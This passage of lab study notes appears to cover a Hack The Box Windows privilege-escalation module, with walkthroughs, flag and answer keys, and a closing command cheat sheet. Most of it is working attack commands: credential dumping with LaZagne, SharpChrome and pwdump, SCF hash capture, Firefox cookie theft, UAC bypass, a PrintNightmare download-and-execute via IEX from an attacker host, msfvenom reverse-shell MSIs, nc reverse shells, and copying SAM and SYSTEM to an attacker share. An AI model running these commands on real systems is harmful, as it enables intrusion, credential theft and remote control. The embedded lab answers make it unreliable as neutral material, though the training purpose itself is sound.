Password: S3cret_db_p@ssw0rd!

--- Winscp passwords ---
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
```

**Q1 answer:** `S3cret_db_p@ssw0rd!` (sa password from DbVisualizer)

### Windows Credential Manager (cmdkey / RDP saved creds)

```cmd
:: List saved credentials
cmdkey /list
```

When opening Remote Desktop Connection (`mstsc.exe`), saved credentials auto-populate the username field. The credential that auto-populates for WEB01 reveals which user has RDP creds stored.

**Q2 answer:** `amanda` (auto-populates when connecting to WEB01)

### SharpChrome — decrypt Chrome saved passwords

```powershell
cd C:\Tools
.\SharpChrome.exe logins /unprotect
:: Decrypts Chrome's AES-encrypted login database using DPAPI (current user's key)
:: Output: CSV with signon_realm, username, password columns
```

Expected: entries like `https://vc.inlanefreight.local/,root,ILVCadm1n1qazZAQ!`

**Q3 answer:** `ILVCadm1n1qazZAQ!` (root password for vCenter web UI)

### SessionGopher — dump saved session credentials

```powershell
cd C:\Tools
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
:: Reads WinSCP registry keys, PuTTY sessions, RDP saved connections
```

Expected: `Source: WINLPE-SRV01\htb-student, Session: root@ftp.ilfreight.local, Password: Ftpuser!`

**Q4 answer:** `Ftpuser!` (FTP password from WinSCP saved session)

> 📸 Screenshot: LaZagne output, SharpChrome output, SessionGopher output, each showing different credential sources

---

## WPE.19. Citrix Breakout

Citrix/VDI environments restrict the user to a predefined desktop with limited applications. The goal is to escape to a full shell.

### Breakout via Paint Open dialog

```
1. Open Paint from within the Citrix session
2. File → Open
3. In the File name field, type: \\127.0.0.1\c$\users\pmorgan
4. Set "Files of type" to "All Files"
5. Click Open — this browses the UNC share as SYSTEM-accessible admin share
6. Navigate to Downloads\flag.txt → right-click → Open with Notepad
```

This works because the Open dialog has unrestricted UNC path navigation even in a restricted environment.

**Q1 answer:** `CitR1X_Us3R_Esc@p3`

> 📸 Screenshot: Paint Open dialog with UNC path in the filename field, then flag.txt in Notepad

### Citrix admin escalation via PowerUp + Bypass-UAC

From the initial user shell (gained via SMB share + running cmd.exe):

```powershell
:: Upgrade to powershell
powershell -ep bypass
cd c:\users\public

:: Transfer tools from attacker SMB share
xcopy \\PWNIP\share\PowerUp.ps1 .
xcopy \\PWNIP\share\Bypass-UAC.ps1 .

:: Create a new local admin user via MSI installer
Import-Module .\PowerUp.ps1
Write-UserAddMSI
:: Creates UserAdd.msi in current directory

:: Run it to create backdoor:backdoor user
.\userAdd.msi
:: Fill in: backdoor / T3st@123

:: Spawn elevated cmd as backdoor user
runas /user:backdoor cmd

:: In that cmd, bypass UAC
powershell -ep bypass
cd C:\users\public
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -method UacMethodSysprep
:: New elevated powershell opens as SYSTEM

type C:\Users\Administrator\Desktop\flag.txt
```

**Q2 answer:** `C1tr!x_3sC@p3_@dm!n`

> 📸 Screenshot: UAC bypass success, then admin flag read in the elevated window

---

## WPE.20. Interacting with Users (SCF File Attack)

An SCF (Shell Command File) is a text file that causes Windows Explorer to load an icon from a UNC path. When a user opens a folder containing the SCF, Windows automatically tries to fetch the icon, sending their NTLM hash to the attacker's Responder.

### SCF file creation and Responder capture

```bash
# Step 1: on attack box, start Responder on the VPN interface
sudo responder -w -v -I tun0
```

On the Windows target:

```
1. Open Notepad
2. Paste this SCF content:
   [Shell]
   Command=2
   IconFile=\\PWNIP\share\legit.ico
   [Taskbar]
   Command=ToggleDesktop
3. File → Save As → navigate to C:\Department Shares\Public\IT
4. Save as: @Inventory.scf
   (@ prefix makes it sort to the top, ensuring it loads first)
```

Expected: within seconds, Responder captures a NetNTLMv2 hash:

```
[SMB] NTLMv2-SSP Username : WINLPE-SRV01\sccm_svc
[SMB] NTLMv2-SSP Hash     : sccm_svc::WINLPE-SRV01:<hash>
```

Crack with hashcat:

```bash
hashcat -a 0 -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
:: Mode 5600 = NetNTLMv2
:: Output: SCCM_SVC::WINLPE-SRV01:...:Password1
```

**Q1 answer:** `Password1` (sccm_svc cleartext password after cracking)

> 📸 Screenshot: Responder showing the captured NTLMv2 hash, then hashcat cracking it to Password1

🔍 Worth remembering generally: the SCF attack is passive, you place a file and wait for any user to open that folder in Explorer. The `@` prefix is the trick to guarantee it loads immediately (sorts alphabetically before everything else). The NTLM hash is captured without any interaction from the victim beyond opening the folder.

---

## WPE.21. Pillaging

Extracting stored data from applications installed on compromised hosts.

### mRemoteNG — decrypt saved RDP/SSH passwords

mRemoteNG stores saved session credentials in `confCons.xml` with AES-GCM encryption (keyed to an empty password by default or a custom master password).

```powershell
:: Find the config file
cmd /c more "%USERPROFILE%\APPDATA\Roaming\mRemoteNG\confCons.xml"
:: Look for: Password="<base64-encoded-encrypted-blob>"
```

Decrypt on attack box:

```bash
wget https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py
python3 mremoteng_decrypt.py -s "<base64-blob>"
:: Output: Password: Princess01!

# If a custom master password was set:
python3 mremoteng_decrypt.py -s "<base64-blob>" -p "<master-password>"
```

**Q1 answer:** `mRemoteNG` (the application installed to manage remote systems)
**Q2 answer:** `Princess01!` (Grace's password from mRemoteNG confCons.xml)

### Firefox cookies — session hijacking

Stealing a session cookie from Firefox allows logging in as that user without needing their password.

```cmd
:: On Windows target: copy the Firefox cookies SQLite database
copy C:\Users\Grace\AppData\Roaming\Mozilla\Firefox\Profiles\wu7k463d.default-release\cookies.sqlite \\PWNIP\share
```

On attack box:

```bash
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py
python3 cookieextractor.py --dbpath cookies.sqlite --host slacktestapp
:: Output: ('d', 'VGhpcyBpcyBh...==', '.api.slacktestapp.com', '/', ...)
```

In the victim's browser (Firefox inside the RDP session):
1. Navigate to `slacktestapp.com`
2. Open Cookie-Editor extension
3. Replace cookie `d` value with the extracted base64 string
4. Save + refresh

Expected: logged in as the cookie's original owner.

**Q3 answer:** `HTB{Stealing_Cookies_To_AccessWebSites}`

### Restic backup — SAM/SYSTEM extraction

Restic is an open-source backup tool. Backup snapshots may contain sensitive system files.

```powershell
:: List available snapshots
restic.exe -r E:\restic snapshots
:: Password: Superbackup!
:: Output: list of snapshots with paths like C:\Windows\System32\config

:: Restore the most recent config snapshot
restic.exe -r E:\restic restore b2f5caa0 --target C:\Users\jeff\Restore

:: Copy SAM and SYSTEM to attacker SMB share
copy C:\Users\jeff\Restore\C\Windows\System32\config\SAM \\PWNIP\share\
copy C:\Users\jeff\Restore\C\Windows\System32\config\SYSTEM \\PWNIP\share\
```

On attack box:

```bash
impacket-secretsdump -sam SAM -system SYSTEM local
:: Output: Administrator:500:aad3b435...:BAC9DC5B7B4BEC1D83E0E9C04B477F26:::
```

**Q4 answer:** `Superbackup!` (restic password from "backup conf.txt" on jeff's Desktop)
**Q5 answer:** `BAC9DC5B7B4BEC1D83E0E9C04B477F26` (Administrator NTLM hash)

> 📸 Screenshot: restic snapshots list, then secretsdump output showing Administrator hash

---

## WPE.22. Miscellaneous Techniques

### Get-LocalUser Description field

Local user accounts sometimes have passwords stored in the Description field for convenience ("Network scanner, do not change password: !QAZXSW@3edc").

```powershell
Get-LocalUser
:: Check the Description column for any account
```

**Q1 answer:** `!QAZXSW@3edc` (secsvc password found in Get-LocalUser Description)

### unattend.xml / Panther directory

Windows Autopilot/Setup stores provisioning data in `C:\Windows\Panther\unattend.xml`. This often contains the local admin account's plaintext password from the initial setup.

```cmd
type C:\Windows\Panther\unattend.xml
:: Look for: <Value>...</Value> inside <Password> tags
:: Or: findstr /si "password" C:\Windows\Panther\*.xml
```

---

## WPE.23. Windows Server (Old OS — Sherlock + smb_delivery)

Windows Server 2008 R2 and similar legacy systems often have many unpatched kernel vulnerabilities.

### Sherlock.ps1 — vulnerability enumeration

```powershell
cd C:\Tools
Set-ExecutionPolicy bypass -scope process
Import-Module .\Sherlock.ps1
Find-AllVulns
:: Reports: VulnStatus: Appears Vulnerable for missing patches
```

Key vulnerable statuses from Sherlock:
- MS10-092 (Task Scheduler XML). Windows 7/2008 R2
- MS15-051 (ClientCopyImage Win32k)
- MS16-032 (Secondary Logon Handle)

### smb_delivery — initial access via web app command injection

If a web app has command injection and the target is Windows, use MSF `smb_delivery` to deliver a meterpreter stager via SMB (no file write to disk on the target):

```bash
sudo msfconsole -q
use exploit/windows/smb/smb_delivery
set SRVHOST tun0
set LHOST tun0
exploit
:: Output: Run the following command on the target machine:
:: rundll32.exe \\PWNIP\xYBi\test.dll,0
```

Inject that command via the web app's command injection. The meterpreter session opens.

### Privilege escalation: MS10-092 (Task Scheduler)

```bash
:: In meterpreter session, background it:
bg
use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set LHOST PWNIP
set LPORT 4443
exploit
:: Opens SYSTEM meterpreter session
```

**Q1 answer:** `L3gacy_st1ill_pr3valent!` (flag on Administrator Desktop after SYSTEM shell)

---

## WPE.24. Windows Desktop (Old OS — windows-exploit-suggester + MS16-032)

Windows 7 SP1 with minimal patches has many kernel-level escalation paths.

```powershell
:: Capture systeminfo output to a file
systeminfo > C:\sysinfo.txt
:: Transfer to attack box
```

On attack box:

```bash
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py
python2 windows-exploit-suggester.py --update
# Generates: YYYY-MM-DD-mssb.xls

python2 windows-exploit-suggester.py --database YYYY-MM-DD-mssb.xls --systeminfo systemInfo.txt
# Output: [E] MS16-032 ... Appears Vulnerable
```

### MS16-032 (Secondary Logon Handle) escalation

```powershell
cd C:\Tools
Set-ExecutionPolicy bypass -scope process
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
:: Output: [+] Resuming thread..
::         [!] Holy handle leak Batman, we have a SYSTEM shell!!
:: A new CMD window opens as SYSTEM
```

```cmd
type C:\Users\Administrator\Desktop\flag.txt
```

**Q1 answer:** `Cm0n_l3ts_upgRade_t0_win10!`

---

## WPE.25. Skills Assessment Part I



### Q1: Enumerate installed KBs

```bash
# Initial access via command injection + smb_delivery meterpreter
sudo msfconsole -q
use exploit/windows/smb/smb_delivery
set SRVHOST tun0; set LHOST tun0; exploit
# Inject: 127.0.0.1 && rundll32.exe \\PWNIP\xYBi\test.dll,0
```

Inside meterpreter shell:

```cmd
wmic qfe
:: Output: KB3199986 and KB3200970
```

**Q1 answer:** `3199986&3200970`

### Q2: PrintNightmare → LaZagne → ldapadmin

```bash
# Prep: clone PoC and append call to PS1
git clone https://github.com/calebstewart/CVE-2021-1675.git
echo 'Invoke-Nightmare -NewUser "Hacker" -NewPassword "Pwnd1234!" -DriverName "Printyboi"' >> CVE-2021-1675.ps1
python3 -m http.server 8080
```

Via command injection:

```
127.0.0.1 | powershell IEX(New-Object Net.Webclient).downloadString('http://PWNIP:8080/CVE-2021-1675.ps1')
```

Expected: Hacker user created with local admin rights. Then:

```bash
xfreerdp /v:STMIP /u:Hacker /p:'Pwnd1234!'
# Open elevated PowerShell
.\lazagne.exe all
# Output includes: ldapadmin / car3ful_st0rinG_cr3d$ (Apache Directory Studio)
```

**Q2 answer:** `car3ful_st0rinG_cr3d$`

### Q3 and Q4: flags on Administrator Desktop

```powershell
type C:\Users\Administrator\Desktop\flag.txt
:: Ev3ry_sysadm1ns_n1ghtMare!

:: Navigate to Music
:: confidential.txt is at C:\Users\Administrator\Music\confidential.txt
:: 5e5a7dafa79d923de3340e146318c31a
```

**Q3 answer:** `Ev3ry_sysadm1ns_n1ghtMare!`
**Q4 answer:** `5e5a7dafa79d923de3340e146318c31a`

---

## WPE.26. Skills Assessment Part II



### Q1: unattend.xml credential

```cmd
cd C:\
findstr /spin "iamtheadministrator" *.*
:: Points to C:\Windows\Panther\

cd C:\Windows\Panther
type unattend.xml
:: Look for <Value>...</Value> inside <Password> block
:: Contains: Inl@n3fr3ight_sup3rAdm1n!
```

**Q1 answer:** `Inl@n3fr3ight_sup3rAdm1n!`

### Q2: AlwaysInstallElevated → SYSTEM

🔁 Similar to: [[Windows Privilege Escalation (Offsec)#17.4.5. AlwaysInstallElevated|Module 17.4.5]]. The check uses registry:

```cmd
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
:: Both must be 1 for the exploit to work
```

On attack box:

```bash
msfvenom -p windows/shell_reverse_tcp lhost=PWNIP lport=9443 -f msi > aie.msi
python3 -m http.server
nc -nvlp 9443
```

On target:

```powershell
curl http://PWNIP:8000/aie.msi -o "C:\Users\htb-student\Desktop\aie.msi"
# Double-click aie.msi in Explorer (or: msiexec /i aie.msi)
```

Expected: SYSTEM shell in nc listener.

```cmd
type C:\users\Administrator\desktop\flag.txt
```

**Q2 answer:** `el3vatEd_1nstall$_v3ry_r1sky`

### Q3: PwDump8 → offline hash crack

```bash
# On attack box: get PwDump8
wget https://download.openwall.net/pub/projects/john/contrib/pwdump/pwdump8-8.2.zip
unzip pwdump8-8.2.zip
python3 -m http.server 8000
```

On target (from the SYSTEM shell):

```cmd
curl http://PWNIP:8000/pwdump8.exe -o "C:\Users\htb-student\Desktop\pwdump8.exe"
C:\Users\htb-student\Desktop\pwdump8.exe
:: Output: wksadmin:1003:AAD3B435...:5835048CE94AD0564E29A924A03510EF
```

On attack box:

```bash
hashcat -m 1000 5835048CE94AD0564E29A924A03510EF /usr/share/wordlists/rockyou.txt
:: Output: 5835048ce94ad0564e29a924a03510ef:password1
```

**Q3 answer:** `password1`

---

## Related Boxes

**Privilege-specific boxes:**
- [[Forest]] (HTB) — SeImpersonatePrivilege via DC account (relates to WPE.4)
- [[Fuse]] (HTB) — SeLoadDriverPrivilege exploitation (direct match for WPE.10)
- [[Querier]] (HTB) — MSSQL xp_cmdshell + SeImpersonatePrivilege chain (WPE.4 pattern)
- [[Monteverde]] (HTB) — Azure AD enumeration + credential in user fields
- [[Timelapse]] (HTB) — LAPS credential extraction + WinRM access

**Credential hunting boxes:**
- [[Scrambled]] (HTB) — credential hunting across services + Kerberos
- [[Outdated]] (HTB) — SharpChrome equivalent + Follina (user interaction)
- [[Heist]] (HTB) — credential hunting across Cisco config files + RID brute

**Old OS / kernel exploit boxes:**
- [[Devel]] (HTB) — Windows 7 x86 + MS11-046 local kernel privesc
- [[Optimum]] (HTB) — Windows Server 2012 R2 + MS16-032 (exact match for WPE.24)
- [[Blue]] (HTB) — Windows 7 SP1 + EternalBlue (not local privesc but old OS context)

**Named pipe / service boxes:**
- [[DevOops]] (HTB) — XXE + service abuse
- [[Atom]] (HTB) — electron-updater signature bypass (service binary)

> 📸 Screenshot: flag reads for all skills assessment questions

---

#### Tags: #WindowsPrivEsc #HTBSupplementary #SeDebugPrivilege #SeTakeOwnershipPrivilege #SeLoadDriverPrivilege #DnsAdmins #PrintOperators #ServerOperators #EventLogReaders #UACBypass #HiveNightmare #CVE202136934 #PrintNightmare #CVE20211675 #CredentialHunting #mRemoteNG #SCFAttack #Pillaging #Restic #CitrixBreakout #LaZagne #SharpChrome #SessionGopher #SharpUp #Sherlock #MS16032 #MS10092


---

## HTB Module Quick Reference

Commands formatted for use with the [[Pre-Engagement Kali Setup]] variable block.

```bash
# ============================================================
# INITIAL SITUATIONAL AWARENESS
# ============================================================
whoami /priv              # current user's privileges — check SeImpersonate, SeBackup, SeDebug
whoami /groups            # group memberships — Event Log Readers? DnsAdmins? Server Operators?
systeminfo                # OS version + patch level (for kernel CVE matching)
wmic qfe                  # installed hotfixes
wmic product get name     # installed software
tasklist /svc             # running processes and their services
netstat -ano              # open connections (look for internal services to pivot to)
query user                # logged-in users and session types (RDP vs console)

# AppLocker enumeration (what's blocked?)
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
Get-MpComputerStatus   # Windows Defender status

# ============================================================
# AUTOMATED CHECKS
# ============================================================
.\winPEAS.exe            # comprehensive automated privesc checker
.\SharpUp.exe audit      # service misconfiguration checks
.\PowerUp.ps1            # PowerShell-based checks
. .\PowerUp.ps1; Invoke-AllChecks

# ============================================================
# SERVICE BINARY HIJACKING
# ============================================================
# Find services where the binary is writable
.\SharpUp.exe audit
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"   # check perms

# Replace the binary (run from a dir you have write access to)
cmd /c copy /Y malicious.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"

# ============================================================
# UNQUOTED SERVICE PATHS
# ============================================================
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """"

# ============================================================
# DLL HIJACKING
# ============================================================
# Find a service that loads a DLL from a writable directory
# Compile a malicious DLL (cross-compile from Kali):
x86_64-w64-mingw32-gcc -shared -fPIC -nostartfiles -o adduser.dll adduser.c

# msfvenom DLL payload:
msfvenom -p windows/x64/exec cmd='net localgroup Administrators $Username /add' -f dll -o adduser.dll

# ============================================================
# SCHEDULED TASK BINARY REPLACEMENT
# ============================================================
schtasks /query /fo LIST /v | grep -A 5 "Task Name"
Get-ScheduledTask | select TaskName,State
# If a task binary is in a writable location, replace it with a payload

# ============================================================
# SEIMPERSONATEPRIVILEGE (xp_cmdshell / web shell / service context)
# ============================================================
# PrintSpoofer (works on Server 2016/2019/2022 and Win10)
.\PrintSpoofer.exe -c "cmd /c net localgroup Administrators $Username /add"
.\PrintSpoofer.exe -c "C:\tools\nc.exe $LocalIP $Port -e cmd"

# SigmaPotato (alternative when PrintSpoofer fails)
.\SigmaPotato.exe "cmd /c whoami"

# ============================================================
# SEBACKUPPRIVILEGE
# ============================================================
# Read any file regardless of DACL
reg.exe save hklm\sam C:\Temp\sam.save
reg.exe save hklm\system C:\Temp\system.save
# Or use SeBackupPrivilegeCmdlets.dll for direct file copy with backup semantics

# ============================================================
# ALWAYSINSTALLELEVATED
# ============================================================
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# If both are 1:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LocalIP LPORT=$Port -f msi -o aie.msi
msiexec /i C:\aie.msi /quiet /qn /norestart

# ============================================================
# CREDENTIAL HUNTING
# ============================================================
# PSReadLine history (most productive single file to check)
(Get-PSReadLineOption).HistorySavePath
gc (Get-PSReadLineOption).HistorySavePath

# findstr — search files for the word "password"
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.ps1

# Saved credentials in Credential Manager
cmdkey /list
runas /savecred /user:$Username cmd

# unattend.xml (often in C:\Windows\Panther\ or C:\Windows\System32\sysprep\)
dir /S /B *unattend* 2>nul

# LaZagne — multi-source credential dump
.\lazagne.exe all

# SharpChrome — extract Chrome saved passwords
.\SharpChrome.exe logins /unprotect

# SessionGopher — extract saved sessions (PuTTY, WinSCP, SuperPuTTY, RDP)
Invoke-SessionGopher -Target $BoxName

# DnsAdmins group — DLL injection via dnscmd
msfvenom -p windows/x64/exec cmd='net group "domain admins" $Username /add /domain' -f dll -o www/adduser.dll
dnscmd.exe /config /serverlevelplugindll \\$LocalIP\share\adduser.dll
sc stop dns && sc start dns

# ============================================================
# SERVER OPERATORS — SERVICE BINPATH HIJACK
# ============================================================
sc config AppReadiness binPath= "cmd /c net localgroup Administrators $Username /add"
sc stop AppReadiness
sc start AppReadiness

# ============================================================
# SELOADDRIVERPRIVILEGE
# ============================================================
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
.\EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\Tools\Capcom.sys

# ============================================================
# KERNEL / CVE QUICK REFERENCE
# ============================================================
# CVE-2023-29360 / CVE-2023-28252 — Win11/Server 2022 (check winPEAS output)
# CVE-2021-36934 HiveNightmare    — Win10 21H1 and older (check SAM/SYSTEM ACL)
# CVE-2021-1675 PrintNightmare    — most unpatched Windows
# MS10-092 / MS16-032             — old OS (check with Sherlock.ps1)

.\Sherlock.ps1
python2.7 windows-exploit-suggester.py --database mssb.xls --systeminfo systeminfo.txt
```
